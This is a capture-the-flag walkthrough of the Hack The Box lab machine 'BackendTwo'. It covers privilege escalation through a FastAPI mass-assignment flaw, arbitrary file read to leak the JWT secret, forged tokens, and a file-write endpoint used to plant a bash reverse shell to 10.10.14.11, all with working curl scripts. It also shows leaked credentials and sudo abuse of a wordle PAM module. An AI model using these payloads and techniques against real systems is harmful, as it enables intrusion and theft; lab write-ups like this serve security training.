

# Hackthebox BackendTwo

- Linux



- [Box on HTB](https://app.hackthebox.com/machines/469)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -Pn -p- 10.10.11.162                                                                                                                                                                                           130 ⨯
Nmap scan report for 10.10.11.162
Host is up (0.023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    uvicorn
|_http-server-header: uvicorn
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     content-type: text/plain; charset=utf-8
|     Connection: close
|     Invalid HTTP request received.
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     date: Sat, 14 May 2022 23:59:13 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"detail":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 200 OK
|     date: Sat, 14 May 2022 23:59:02 GMT
|     server: uvicorn
|     content-length: 22
|     content-type: application/json
|     Connection: close
|     {"msg":"UHC Api v2.0"}
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     date: Sat, 14 May 2022 23:59:08 GMT
|     server: uvicorn
|     content-length: 31
|     content-type: application/json
|     Connection: close
|_    {"detail":"Method Not Allowed"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=5/14%Time=6280407F%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,A6,"HTTP/1\.1\x20200\x20OK\r\ndate:\x20Sat,\x2014\x20May\x202022
SF:\x2023:59:02\x20GMT\r\nserver:\x20uvicorn\r\ncontent-length:\x2022\r\nc
SF:ontent-type:\x20application/json\r\nConnection:\x20close\r\n\r\n{\"msg\
SF:":\"UHC\x20Api\x20v2\.0\"}")%r(HTTPOptions,BF,"HTTP/1\.1\x20405\x20Meth
SF:od\x20Not\x20Allowed\r\ndate:\x20Sat,\x2014\x20May\x202022\x2023:59:08\
SF:x20GMT\r\nserver:\x20uvicorn\r\ncontent-length:\x2031\r\ncontent-type:\
SF:x20application/json\r\nConnection:\x20close\r\n\r\n{\"detail\":\"Method
SF:\x20Not\x20Allowed\"}")%r(RTSPRequest,76,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r(FourOhFourR
SF:equest,AD,"HTTP/1\.1\x20404\x20Not\x20Found\r\ndate:\x20Sat,\x2014\x20M
SF:ay\x202022\x2023:59:13\x20GMT\r\nserver:\x20uvicorn\r\ncontent-length:\
SF:x2022\r\ncontent-type:\x20application/json\r\nConnection:\x20close\r\n\
SF:r\n{\"detail\":\"Not\x20Found\"}")%r(GenericLines,76,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r
SF:(DNSVersionBindReqTCP,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent
SF:-type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nI
SF:nvalid\x20HTTP\x20request\x20received\.")%r(DNSStatusRequestTCP,76,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text/plain;\x20char
SF:set=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP\x20request\x20
SF:received\.")%r(SSLSessionReq,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n
SF:content-type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r
SF:\n\r\nInvalid\x20HTTP\x20request\x20received\.")%r(TerminalServerCookie
SF:,76,"HTTP/1\.1\x20400\x20Bad\x20Request\r\ncontent-type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\nInvalid\x20HTTP\x20req
SF:uest\x20received\.")%r(TLSSessionReq,76,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\ncontent-type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\nInvalid\x20HTTP\x20request\x20received\.");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), Linux 5.3 - 5.4 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.13 seconds
```

## Port 80

### Gobuster

```
┌──(root💀kali)-[~]
└─# gobuster dir -u http://10.10.11.162/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.162/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/14 19:59:58 Starting gobuster in directory enumeration mode
===============================================================
/api                  (Status: 200) [Size: 19]
/docs                 (Status: 401) [Size: 30]
                                              
===============================================================
2022/05/14 20:00:20 Finished
===============================================================

```
  
- Just like with the first backend box we can enumerate users with the id  
  
- `http://10.10.11.162/api/v1/admin/` requires authentication
- `http://10.10.11.162/docs` requires auth

### Wfuzz

Let's fuzz with wfuzz and http verbs to see what we could do
```
┌──(root💀kali)-[~]
└─# wfuzz -X POST -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.11.162/api/v1/user/FUZZ --hc 404,405                                                                                               130 ⨯
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.162/api/v1/user/FUZZ
Total requests: 4702

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000001029:   307        0 L      0 W        0 Ch        "cgi-bin/"                                                                                                                                                                  
000002500:   422        0 L      3 W        172 Ch      "login"                                                                                                                                                                     
000003788:   422        0 L      2 W        81 Ch       "signup"                            
```

- We are able to create a user (same process as the previous backend box)  
  
- We can now login using the user and we get a bearer token  

- Then we can access the swager with intercept on we add our token bearer and set the cntent type to json  
  
- We get redirected to openapi.json  
  
- We have a user flag request in the swagger let's try to grab it  
- we need to be admin to grab it
- Also we can enumerate users with burp intruder  
  
- We get 11 users + 1 (the one we created)
- We are also able to see other profile we are player: `"profile":"UHC Player"`, there is also a guest `"profile":"UHC Guest",` and of course the Admin (the first one we found)
- In the swagger we can actually edit a profile. Let's try to make ourselves admin. It works!  

- If we check we are indeed admin  
  
- However we can see that we are not super, let's try to put ourselves the is super user to true with the put request to edit  
  
- And it worked too  

- We have to login again and generate a new token, let's replay our initial login request

- Let's try to grab the flag again with this new token. It works  

- Let's now play with the read file and write file request we can see in the swagger to get a file the name needs to be in base64 url as mentioned in the swagger
- We are able to get /etc/passwd this way  
  
- Let's try to get the main.py it should be here `/home/htb/app/main.py`
```
import asyncio\nimport os\n\nwith open('pid','w') as f:\n    f.write( str(os.getpid())  )\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi\n\n\n\nfrom typing import Optional, Any\nfrom pathlib import Path\nfrom sqlalchemy.orm import Session\n\n\n\nfrom app.schemas.user import User\nfrom app.api.v1.api import api_router\nfrom app.core.config import settings\n\nfrom app.api import deps\nfrom app import crud\n\n\n\napp = FastAPI(title=\"UHC API Quals\", openapi_url=None, docs_url=None, redoc_url=None)\nroot_router = APIRouter(default_response_class=UJSONResponse)\n\n\n\n@app.get(\"/\", status_code=200)\ndef root():\n    \"\"\"\n    Root GET\n    \"\"\"\n    return {\"msg\": \"UHC Api v2.0\"}\n\n\n@app.get(\"/api\", status_code=200)\ndef root():\n    \"\"\"\n    /api endpoints\n    \"\"\"\n    return {\"endpoints\":\"/v1\"}\n\n\n@app.get(\"/api/v1\", status_code=200)\ndef root():\n    \"\"\"\n    /api/v1 endpoints\n    \"\"\"\n    return {\"endpoints\":[\"/user\",\"/admin\"]}\n\n\n\n@app.get(\"/docs\")\nasync def get_documentation(\n    current_user: User = Depends(deps.parse_token)\n    ):\n    return get_swagger_ui_html(openapi_url=\"/openapi.json\", title=\"docs\")\n\n@app.get(\"/openapi.json\")\nasync def openapi(\n    current_user: User = Depends(deps.parse_token)\n):\n    return get_openapi(title = \"FastAPI\", version=\"0.1.0\", routes=app.routes)\n\napp.include_router(api_router, prefix=settings.API_V1_STR)\napp.include_router(root_router)\n\n\ndef start():\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n\nif __name__ == \"__main__\":\n    # Use this for debugging purposes only\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=80, log_level=\"debug\")\n
```
- We can not write file because it is asking for a debug key (just like the first backend box)
- This line in the main.py app could help us `app.core.config import settings`
- Let's try to see `/home/htb/app/core/config.py`  
  
- we apply changes and fetch it  
  
- And we see in the settings that it gets it's secret from an env var `JWT_SECRET: str = os.environ['API_KEY']`  
- We need to get the `/proc/self/environ`  
  
- We have the private key: `API_KEY=68b329da9893e34099c7d8ad5cb9c940`
- Now we just need to modify our token on jwt.io with the private key and add the debug to true. Let's take the token and paste it in there and make the changes  
  
- It works!  
  
- At this point we could try to overwrite a script in order to make an endpoint to send a reverse shell
- Let's fetch user.py (we can use ippsec's script from the bonus section below to fetch it) `./getfile.sh app/api/v1/endpoints/user.py > user.py`
- We can add this in the end of user.py:
```
@router.delete("/ShellMe", status_code=200)
def fetch_shell() -> Any:
    """
    Sends a reverse shell
    """
    import os
    os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/9001 0>&1'")
    return
```
- Now we have to take the whole script and escape it in json we can do this with [this website](https://www.freeformatter.com/json-escape.html#ad-output) and we get our new script:
```
from typing import Any, Optional\r\nfrom uuid import uuid4\r\nfrom datetime import datetime\r\n\r\n\r\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\r\nfrom fastapi.security import OAuth2PasswordRequestForm\r\nfrom sqlalchemy.orm import Session\r\n\r\nfrom app import crud\r\nfrom app import schemas\r\nfrom app.api import deps\r\nfrom app.models.user import User\r\nfrom app.core.security import get_password_hash\r\n\r\nfrom pydantic import schema\r\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\r\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\r\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\r\n    else:\r\n        return original_field_schema(field, **kwargs)\r\n\r\noriginal_field_schema = schema.field_schema\r\nschema.field_schema = field_schema\r\n\r\nfrom app.core.auth import (\r\n    authenticate,\r\n    create_access_token,\r\n)\r\n\r\nrouter = APIRouter()\r\n\r\n@router.get(\"\/{user_id}\", status_code=200, response_model=schemas.User)\r\ndef fetch_user(*, \r\n    user_id: int, \r\n    db: Session = Depends(deps.get_db) \r\n    ) -> Any:\r\n    \"\"\"\r\n    Fetch a user by ID\r\n    \"\"\"\r\n    result = crud.user.get(db=db, id=user_id)\r\n    return result\r\n\r\n\r\n@router.put(\"\/{user_id}\/edit\")\r\nasync def edit_profile(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.UserUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Edit the profile of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.put(\"\/{user_id}\/password\")\r\nasync def edit_password(*,\r\n    db: Session = Depends(deps.get_db),\r\n    token: User = Depends(deps.parse_token),\r\n    new_user: schemas.user.PasswordUpdate,\r\n    user_id: int\r\n) -> Any:\r\n    \"\"\"\r\n    Update the password of a user\r\n    \"\"\"\r\n    u = db.query(User).filter(User.id == token['sub']).first()\r\n    if token['is_superuser'] == True:\r\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n    else:        \r\n        u = db.query(User).filter(User.id == token['sub']).first()        \r\n        if u.id == user_id:\r\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\r\n            return {\"result\": \"true\"}\r\n        else:\r\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\r\n\r\n@router.post(\"\/login\")\r\ndef login(db: Session = Depends(deps.get_db),\r\n    form_data: OAuth2PasswordRequestForm = Depends()\r\n) -> Any:\r\n    \"\"\"\r\n    Get the JWT for a user with data from OAuth2 request form body.\r\n    \"\"\"\r\n    \r\n    timestamp = datetime.now().strftime(\"%m\/%d\/%Y, %H:%M:%S\")\r\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\r\n    if not user:\r\n        with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\r\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\r\n    \r\n    with open(\"auth.log\", \"a\") as f:\r\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\r\n\r\n    return {\r\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\r\n        \"token_type\": \"bearer\",\r\n    }\r\n\r\n@router.post(\"\/signup\", status_code=201)\r\ndef create_user_signup(\r\n    *,\r\n    db: Session = Depends(deps.get_db),\r\n    user_in: schemas.user.UserSignup,\r\n) -> Any:\r\n    \"\"\"\r\n    Create new user without the need to be logged in.\r\n    \"\"\"\r\n\r\n    new_user = schemas.user.UserCreate(**user_in.dict())\r\n\r\n    new_user.guid = str(uuid4())\r\n\r\n    user = db.query(User).filter(User.email == new_user.email).first()\r\n    if user:\r\n        raise HTTPException(\r\n            status_code=400,\r\n            detail=\"The user with this username already exists in the system\",\r\n        )\r\n    user = crud.user.create(db=db, obj_in=new_user)\r\n\r\n    return user\r\n\r\n@router.get(\"\/shell\", status_code=200)\r\ndef fetch_user() -> Any:\r\n    \"\"\"\r\n    Sends a reverse shell\r\n    \"\"\"\r\n    os.system(\"bash -c 'bash -i >& \/dev\/tcp\/10.10.14.11\/4444 0>&1' \")\r\n    return
```

- We save it in a file named escaped
- now we can use it in a new bash script (I named it exploit.sh)
```
#! /bin/bash

TOKEN=<Your-token-here>
b64url=$(echo -n "app/api/v1/endpoints/user.py" | base64 | tr '/+' '_-' | tr -d '=')

curl -s -X POST http://10.10.11.162/api/v1/admin/file/${b64url} -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d "{\"file\":\"$(cat escaped)\"}" | jq .result -r

```
- now we launched it  
  
- Now if we refresh our swagger (/docs) we see a new method  
  
- Let's set a listener on the port we specified in our script (4444) `rlwrap nc -lvnp 4444 `
- Let's try the new method. We get our shell  
  

## Privesc

- We can cat the auth.log we see a password  
  
- Turns out it is the htb user password not the root so in case we need to ssh as htb we have a password `1qaz2wsx_htb!`
- if we sudo -l with the user it launches a wordle game    
  
- It was good that we kept the password because I lost the shell so I could ssh back into it
- Let's try to find the script that uses wordle `find / -name *wordle* 2>/dev/null`  
  
- Let's make a string on the file `strings /usr/lib/x86_64-linux-gnu/security/pam_wordle.so`
- This file seems interesting `/opt/.words`  
  
- These are all the guess words
- We can use the list to cheat 
- Let's copy it and paste it in a file
- Now we just need to launch the game again with sudo -l 
```

--- Attempt 1 of 6 ---
Word: uname
Hint->???*?
```
So the word has an m somewhere else so let's find a word with another m
```
--- Attempt 2 of 6 ---
Word: mlock
Hint->*?**?
```
So now we have an `m` an `o` and a `c` except the m is not in the begining and not in 4th place let's launch another shell and grep on our file with all the words. Here is what we get:  
  
A the m is not at the begining of the word it let's try `chmod`, it works  
  
And we can run all the commands so let's just grab the flag with cat  `sudo cat /root/root.txt`

## Bonus

- If you do not want to manually fetch the file with burp you can use this script from ippsec's video writeup (see link in resource), it will fetch the files without the annoying chars by using tr
```
#! /bin/bash

# usage: ./getfile.sh /etc/passwd  

TOKEN=<YOUR-TOKEN-HERE>
b64url=$(echo -n $1 | base64 | tr '/+' '_-' | tr -d '=')

curl -s http://10.10.11.162/api/v1/admin/file/${b64url} -H "Authorization: Bearer $TOKEN" | jq .file -r
```

## Resources

- [Ippsec walkthrough of the box](https://youtu.be/QfAh47RlZjw)
